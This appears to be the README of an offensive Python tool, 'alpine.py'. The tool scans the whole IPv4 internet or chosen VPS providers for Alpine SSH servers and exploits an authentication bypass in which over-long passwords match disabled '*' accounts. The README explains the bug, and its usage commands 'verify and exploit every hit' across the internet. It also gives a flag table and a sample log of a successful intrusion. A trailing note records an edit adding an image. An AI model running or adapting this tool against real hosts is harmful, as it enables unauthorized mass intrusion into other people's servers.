

```markdown

```
[FOUND - ALPINE SSH] - ssh://203.0.113.7:2222 - Germany (DE)
[VULN CVE-2026-123158] - ssh://203.0.113.7:2222 - OpenSSH 9.6 - EXPLOITED nobody/257
> Trying bypass....
> ssh nobody@203.0.113.7 -p 2222
> Password : AAAA...AAA (257)
> Successful login as nobody!
```

## The bug

`crypt()` in musl returns the string `*` for any password longer than 256 bytes.
Accounts with a disabled password store exactly `*` in `/etc/shadow`. sshd compares
`*` with `*` and accepts. Any password between 257 and 1024 bytes logs in.

Requirements, all of them:

- musl libc, PAM disabled (Alpine's default)
- `PasswordAuthentication yes`
- an account whose shadow field is `*` — not `!`, not empty
- another account on the host with a `$5$` or `$6$` hash, to borrow a salt from
- OpenSSH below 10.6p2 **and** an unpatched package

That last point matters: Alpine backported the fix to every branch back to 3.16
without changing the version string, so the banner cannot tell you whether a host
is patched. Only the auth attempt can.

## How it works

Three stages, each gated so the next one only runs when it's worth it:

1. **Discovery** — random public IPv4, bogons excluded, gated on the SSH ports only.
   Hosts that answer nowhere are dropped before any real work.
2. **Scan** — optional (`--portscan`), the full port list on hosts that have SSH open.
3. **Verify** — full SSH handshake, banner tag check, HASSH+`shk` fingerprint match,
   cPanel rejection, then the auth probe.

Scoring weights, cumulative, default threshold 45:

| Signal | Weight |
|---|---|
| `alpine` in banner | 110 |
| Fingerprint in DB | 70 |
| `Apache/x (Unix)` header | 35 |
| `lighttpd` header | 18 |
| `nginx` / bare `Apache` header | 12 |
| lean KEX list | 11 |
| `ssh-rsa` + `ssh-ed25519` both offered | 11 |
| OpenSSH banner | 8 |

A fingerprint match is mandatory unless the banner literally says Alpine, or you
pass `--allow-tagged`.

## Install

```bash
pip install paramiko
```

`paramiko` is only required for `--exploit`. Everything else runs on a bare Python 3.9+.

Docker is needed once, to build the fingerprint database.

## Seed the fingerprint database

The DB is empty by default and without it nothing matches. `--seed` builds it from
official Alpine images:

```bash
python3 alpine.py --seed
awk '!seen[$1]++' hassh_alpine.txt > /tmp/h && mv /tmp/h hassh_alpine.txt
```

Each entry is `hassh:shk_md5`, where HASSH covers the KEX, cipher, MAC and
compression lists and the second component covers host key algorithms. Both are
taken from Alpine builds, so they track Alpine's compiler defaults rather than
upstream's.

## Usage

```bash
# whole internet, verify and exploit every hit
python3 alpine.py --start-attack --all --verify --cve --exploit -o hits.txt

# cheap VPS providers only, where abandoned Alpine boxes live
python3 alpine.py --start-attack --asn 24940,14061,16276 --verify --cve --exploit -o hits.txt

# your own ranges, full port scan on SSH hosts
python3 alpine.py --start-attack --targets cidrs.txt --portscan --verify -o hits.txt

# single host, verbose
python3 alpine.py --test 203.0.113.7:22
```

`--start-attack` is required. Without it you get usage only.

## Output

Findings go to stdout and to `-o`. The attempt block goes to the terminal only, so
files stay clean. `--json` writes JSONL alongside.

Statuses:

| Status | Meaning |
|---|---|
| `EXPLOITED` | logged in. The only real finding. |
| `account-has-password` | vulnerable, password auth on, every account has a hash |
| `no-password-auth` | publickey only, not exploitable |
| `version-only` | `--exploit` not used, banner checked only |

`no-password-auth` hosts are suppressed by default — `--show-keyonly` brings them back.

## Flags

| Flag | Default | Description |
|---|---|---|
| `--start-attack` | | required to run |
| `--all` | | random global IPv4 |
| `--asn` | | comma-separated ASNs to expand |
| `--targets` | | files of IPs/CIDRs |
| `--shodan` | | Shodan API key |
| `--verify` | | run verification, required for hits |
| `--exploit` | | attempt the bypass |
| `--portscan` | | full port scan on SSH hosts |
| `--no-gate` | | skip discovery, scan every host |
| `--ports` | `top` | port list, ranges allowed |
| `--gate-ports` | `22,2222` | discovery ports |
| `--cve-user` | `root` | primary account, tried at every length |
| `--cve-users` | system accounts | fallback list, one length each |
| `--cve-lengths` | `257,300,512,1024` | password lengths |
| `--min-score` | `45` | hit threshold |
| `--concurrency` | `800` | port workers |
| `--host-workers` | `600` | host workers |
| `--rate` | `0` | global packets/sec |
| `--timeout` | `3.0` | connect timeout |
| `--allow-tagged` | | accept `Debian-`/`Ubuntu-`/CentOS lookalikes |
| `--show-rejects` | | log every rejection with its reason |
| `--no-geo` | | skip GeoIP |
| `--no-color` | | plain output |

## Lab

[leonjza/sshhole-lab](https://github.com/leonjza/sshhole-lab):

```bash
docker run -d --rm --name sshhole-lab -p 2222:22 ghcr.io/leonjza/sshhole-lab:latest
```

The image ships both `root` and `alpine` as `*` and no `$6$` hash, so the salt
borrow never fires. Add one:

```bash
HASH=$(openssl passwd -6 rootpw)
docker exec sshhole-lab sed -i "s|^root:.*|root:$HASH:20764:0:99999:7:::|" /etc/shadow
docker exec sshhole-lab pkill -HUP sshd
```

## Limitations

- **Version is not evidence.** Backports keep the old version string. Expect many
  `account-has-password` and few `EXPLOITED`.
- **Arch and Gentoo are indistinguishable** from Alpine on a matching version with a
  plain banner.
- **`!` is not `*`.** A host full of locked accounts is not vulnerable however old its
  OpenSSH is.
- **Hits are point-in-time.** A host that answered during the scan may ban you minutes
  later. fail2ban is common and `--exploit` makes it likelier.
- **GeoIP** uses the free ip-api batch endpoint, 100 IPs per call, 45 calls/min. Switch
  to a local MaxMind DB for large runs.
- Scans are unauthenticated TCP plus a KEXINIT exchange, except `--exploit` which
  performs logins.
```

---

**Change made:** added the image reference directly under the `# alpine.py` title:

```markdown

```
